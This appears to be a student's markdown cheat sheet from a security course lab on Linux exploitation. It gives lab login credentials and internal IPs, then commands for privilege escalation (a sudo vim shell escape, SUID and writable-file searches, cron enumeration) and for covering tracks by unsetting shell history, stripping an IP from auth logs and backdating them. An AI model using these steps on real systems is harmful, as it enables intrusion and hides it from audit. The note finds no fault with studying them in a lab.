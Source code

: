 # Linux Exploitation
# https://sec.cybbh.io/public/security/latest/lessons/lesson-10-linux-exploit_sg.html#_discuss_what_is_privilege_escalation
## Stack Info
```
--Stack Number
  5

--Username
CODA-503-M

--Password
Gx1LjlSgOgQJJMy

Boxes
Student - Password
--Linux ops
10.50.31.135
 
--Windows
xfreerdp /v:10.50.24.133 /u:student /dynamic-resolution +glyph-cache +clipboard
10.50.24.133

--Jump
10.50.27.155

--Password
Gx1LjlSgOgQJJMy

--CTFd
http://10.50.20.30:8000/resources
```
## Privilege Escalation
## https://gtfobins.github.io/ - break out of restricted shells
```
sudo -l

## User student may run the following commands
## vim /etc/ssh/sshd_config (or whatever file)

sudo vim /etc/ssh/sshd_config

## in vim

:!/bin/bash
```
## SUID/GUID 
```
find / -type f -perm /4000 -ls 2>/dev/null   #FIND SUID ONLY FILES
find / -type f -perm /2000 -ls 2>/dev/null   #FIND SGID ONLY FILES
find / -type f -perm /6000 -ls 2>/dev/null   #FIND SUID/SGID FILES
```
# Insecure Permissions
## CRON
```
#Cron daemon runs as root
https://crontab.guru/

/var/spool/cron/crontabs  #User level jobs
/etc/crontab              #System level jobs
/etc/cron.*               #Hourly,Daily,Weekly

crontab -l                #lists for current user
contab -u <user> -l       #lists for a specified user

find /var/spool/cron/crontabs /etc/cron* -writable -ls
#Finds any cron file or directory that can be written to.

find /etc/cron* -type f -exec grep -Eo '/.*' {} \;
#Find potential path and filename by looking for any entry that starts with a slash
```
## World-Writable Files and Directories
```
find / -type f -perm /2 -o -type d -perm /2 2>/dev/null
#Search for any file or directory that is writable by the context "other"

find / -type f -writable -o -type d -writable 2>/dev/null
#Search for any file or directory that is writable by the current user
```
## Vunerable Services 
```
ps aux | grep root   # root processes can be identified

netstat -antu 
#or                  # Open sockets
ss -antu
```
# Covering Tracks 
```
/var/log/syslog OR /var/log/messages
/var/log/secure OR /var/log/auth.log

ps -p 1
systemd = systemd
init = systemV

unset HISTFILE

grep -v "192.168.0.55" /var/log/secure > /tmp/secure.clean; mv /tmp/secure.clean /var/log/secure; touch -t 02180455 /var/log/secure
```
